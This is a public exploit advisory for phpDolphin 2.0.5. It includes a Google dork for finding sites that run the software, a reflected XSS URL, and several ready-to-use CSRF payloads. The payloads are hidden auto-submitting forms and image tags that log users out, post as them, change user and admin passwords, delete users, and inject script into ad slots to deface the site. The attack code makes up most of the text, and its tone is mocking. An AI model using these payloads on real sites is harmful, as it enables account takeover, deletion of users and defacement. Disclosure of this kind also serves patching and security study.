 # Exploit Title: phpDolphin <= 2.0.5 CSRF
# Google Dork: intext:"Powered by phpDolphin"
# Date: January, 15th 2016
# Exploit Author: WhiteCollarGroup
# Vendor Homepage: http://phpdolphin.com
# Version: 2.0.5

XSS (Reflected)
===============

> http://target.com/index.php?a=search&q=teste&filter=m"><h1>XSS</h1><noscript>
CSRF
====

We've found no protection against CSRF (Cross-site Request Forgery), which made possible to do any kind of act on a user (or admin) account.

NO FORMS are secured at all. But we've included some interesting examples. These examples execute actions on the user account while he's visiting a special page prepared by us in any other server. He won't know anything while visiting, as nothing is shown. Let's start from the basic:

Logging an user off
------------------

```
<img src="http://localhost/dolphin/Script/index.php?a=feed&logout=1" width="1" height="1" />
```

It's good to remember that if the user kept the "remember me" on, there are cookies called "username" and (MD5-encoded) "password".

Posting on user's timeline
--------------------------

By changing the "group" input, it's also possible to post on groups.

```
Lorem ipsum dolor sit amet :)<br/>
Take a look on your profile ;)
<form method="post" action="http://localhost/dolphin/Script/requests/post_message.php" target="hiddenframe" id="hackfrm">
	<input type="hidden" name="message" value="HAXORED" />
	<input type="hidden" name="privacy" value="1" />
	<input type="hidden" name="group" value="" />
	<input type="hidden" name="value" value="" />
</form>
<iframe width="0" height="0" id="hiddenframe" name="hiddenframe" border="0" style="display: none"></iframe>
<script> document.getElementById('hackfrm').submit(); </script>
```

Things can get a bit funnier.

Changing user password
----------------------

It's interesting that the change password form does NOT require the actual password. Just make sure "password" and "repeat_password" inputs have EXACTLY the same value.

```
<form method="post" action="http://localhost/dolphin/Script/index.php?a=settings&b=security" target="hiddenframe" id="hackfrm">
	<input type="hidden" name="password" value="hacked1" />
	<input type="hidden" name="repeat_password" value="hacked1" />
</form>
<iframe width="0" height="0" id="hiddenframe" name="hiddenframe" border="0" style="display: none"></iframe>
<script> document.getElementById('hackfrm').submit(); </script>
```

Funny enough? Not?

So let's change the administration password too. Of course this page must be accessed by the administrator.

```
<form method="post" action="http://localhost/dolphin/Script/index.php?a=admin&b=security" target="hiddenframe" id="hackfrm">
	<input type="hidden" name="password" value="hacked1" />
	<input type="hidden" name="repeat_password" value="hacked1" />
</form>
<iframe width="0" height="0" id="hiddenframe" name="hiddenframe" border="0" style="display: none"></iframe>
<script> document.getElementById('hackfrm').submit(); </script>
```

In order to open the admin panel, just visit `/index.php?a=admin`.

Want to delete some user? Just find out the user ID (numeric). For that, just open the user profile, view source (Ctrl + U), find (Ctrl + F) "userid". You will find two attributes "data-userid". That's the numeric user ID.

```
<img src="http://localhost/dolphin/Script/index.php?a=admin&b=users&delete=USER_ID_HERE" width="0" height="0" />
```

Just want to mess everything up?

Hacking site index
==================

By adding Javascript code to one or more of the advertising units, we can block anyone's access to the site. This is our payload:

```
<script> document.body.innerHTML = '<h1>HACKED</h1>'; </script><noscript>
```

And this is our code:

```
<form method="post" action="http://localhost/dolphin/Script/index.php?a=admin&b=manage_ads&m=i" target="hiddenframe" id="hackfrm">
	<input type="hidden" name="ad1" value="<script> document.body.innerHTML = '<h1>HACKED</h1>'; </script><noscript>" />
	<input type="hidden" name="ad2" value="<script> document.body.innerHTML = '<h1>HACKED</h1>'; </script><noscript>" />
	<input type="hidden" name="ad3" value="<script> document.body.innerHTML = '<h1>HACKED</h1>'; </script><noscript>" />
	<input type="hidden" name="ad4" value="<script> document.body.innerHTML = '<h1>HACKED</h1>'; </script><noscript>" />
	<input type="hidden" name="ad5" value="<script> document.body.innerHTML = '<h1>HACKED</h1>'; </script><noscript>" />
	<input type="hidden" name="ad6" value="<script> document.body.innerHTML = '<h1>HACKED</h1>'; </script><noscript>" />
</form>
<iframe width="0" height="0" id="hiddenframe" name="hiddenframe" border="0" style="display: none"></iframe>
<script> document.getElementById('hackfrm').submit(); </script>
```

Enough?

Simply all forms are vulnerable to CSRF. These were just some.